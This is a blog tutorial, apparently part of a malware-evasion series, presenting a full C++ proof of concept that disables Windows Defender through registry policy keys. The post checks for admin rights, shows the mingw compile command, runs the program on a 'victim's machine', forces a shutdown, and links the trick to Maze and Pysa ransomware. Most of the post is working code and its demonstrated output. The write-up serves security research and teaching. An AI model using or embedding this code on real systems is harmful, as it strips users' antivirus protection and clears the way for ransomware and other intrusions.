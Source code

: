 ## 41. malware AV evasion: part 7. Disable Windows Defender. Simple C++ example.

![av](./images/57/2022-06-05_12-21.png){width="80%"}    

This post is the result of self-researching one of the most common tricks in the malware in the wild.

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:    

![av](./images/57/2022-06-05_12-19.png){width="80%"}    

and check registry keys:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-15.png){width="80%"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av](./images/57/2022-06-05_12-03.png){width="80%"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](./images/57/2022-06-05_12-17.png){width="80%"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-20.png){width="80%"}    

![av](./images/57/2022-06-05_12-20_1.png){width="80%"}    

For correctness, check via Windows Defender Security Center:    

![av](./images/57/2022-06-05_12-22.png){width="80%"}    

![av](./images/57/2022-06-05_13-17.png){width="80%"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    
